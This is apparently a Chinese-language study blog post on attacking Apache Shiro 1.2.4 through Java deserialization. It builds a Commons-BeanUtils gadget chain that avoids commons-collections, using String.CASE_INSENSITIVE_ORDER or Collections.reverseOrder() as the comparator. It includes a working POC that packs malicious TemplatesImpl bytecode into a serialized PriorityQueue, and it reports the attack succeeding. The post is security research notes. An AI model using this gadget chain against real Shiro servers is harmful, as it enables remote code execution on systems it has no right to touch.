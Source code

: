 # 前言

继续《Java安全漫谈》的学习。



# 预备知识



之前学习了Commons-BeanUtils1的反序列化链，之所以会学习这个链子，也提到了是因为shiro依赖了它。

写个pom.xml的dependency（不用commons-collections）：

```xml
  <dependencies>
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-core</artifactId>
      <version>1.2.4</version>
    </dependency>
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-web</artifactId>
      <version>1.2.4</version>
    </dependency>

    <dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>3.1.0</version>
      <scope>provided</scope>
    </dependency>

    <dependency>
      <groupId>javax.servlet.jsp</groupId>
      <artifactId>jsp-api</artifactId>
      <version>2.2</version>
      <scope>provided</scope>
    </dependency>



    <!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->
    <dependency>
      <groupId>commons-logging</groupId>
      <artifactId>commons-logging</artifactId>
      <version>1.2</version>
    </dependency>
    <dependency>
      <groupId>org.slf4j</groupId>
      <artifactId>slf4j-api</artifactId>
      <version>1.7.30</version>
    </dependency>
    <dependency>
      <groupId>org.slf4j</groupId>
      <artifactId>slf4j-simple</artifactId>
      <version>1.7.30</version>
    </dependency>


  </dependencies>
```



用maven构建一下就会发现，`shiro-core`中就依赖了`commons-beanutils`：

![image-20210830093126675]([Java反序列化]Shiro反序列化学习(二).assets/image-20210830093126675.png)

因此很自然的联想到，利用commons-beanutils的链子去攻击shiro，实现不利用commons-collections依赖。



正常的攻击会出现两个问题，第一个问题就是`serialVersionUID`的问题，很容易去想，如果两个依赖的版本不同，里面的类的`serialVersionUID`有可能不同，导致反序列化失败。解决办法就是修改所依赖包的版本，去适应反序列化攻击的服务上的依赖版本即可。



第二个问题就是这个报错：

> Unable to load class named [org.apache.commons.collections.comparators.ComparableComparator] from the thread context, current, or system/application ClassLoaders.  All heuristics have been exhausted.  Class could not be found.



发现明明没有利用到commons-collections，但是却要去找cc中的`ComparableComparator`类，导致了反序列化失败。找一下就会发现，原来是`BeanComparator`类出了问题：

```java
import org.apache.commons.collections.comparators.ComparableComparator;
public class BeanComparator implements Comparator, Serializable {
    public BeanComparator( String property ) {
        this( property, ComparableComparator.getInstance() );
    }
```

如果产生`BeanComparator`对象的时候没有设置`comparator`的话，默认是设置成`ComparableComparator()`类，导致了依赖commons-collections。



但是这个`comparator`其实用处不大：

```java
    public int compare( Object o1, Object o2 ) {
        
        if ( property == null ) {
            // compare the actual objects
            return comparator.compare( o1, o2 );
        }
        
        try {
            Object value1 = PropertyUtils.getProperty( o1, property );
            Object value2 = PropertyUtils.getProperty( o2, property );
            return comparator.compare( value1, value2 );
        }
```

就单纯的利用shiro上来说，只要它不是默认的`ComparableComparator`即可。

说简单点就是：

1. `implements Comparator`
2. `implements Serializable`
3. Java、shiro或commons-beanutils自带，不依赖额外的包。

P神还提了一个兼容性强，也确实，但其实小一点来说就是，只要满足上面三点，不管兼容性咋样都能利用成功。



经过师傅们的寻找，比如这个`CaseInsensitiveComparator`类比较满足：

```java
    private static class CaseInsensitiveComparator
            implements Comparator<String>, java.io.Serializable {
        // use serialVersionUID from JDK 1.2.2 for interoperability
        private static final long serialVersionUID = 8575799808933029326L;
```



是`String`类中的静态类。通过获取`String`的`CASE_INSENSITIVE_ORDER`属性即可得到：

```java
    public static final Comparator<String> CASE_INSENSITIVE_ORDER
                                         = new CaseInsensitiveComparator();
```



尝试构造POC即可。



# POC

构造一波，单纯的`BeanComparator`那里改一下就可以了：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        return bytes;
```

即可攻击成功：

![image-20210830094545442]([Java反序列化]Shiro反序列化学习(二).assets/image-20210830094545442.png)



此外`private static class ReverseComparator`类同样可以：

```java
BeanComparator beanComparator = new BeanComparator("outputProperties", Collections.reverseOrder());

    public static <T> Comparator<T> reverseOrder() {
        return (Comparator<T>) ReverseComparator.REVERSE_ORDER;
    }

        static final ReverseComparator REVERSE_ORDER
            = new ReverseComparator();
```





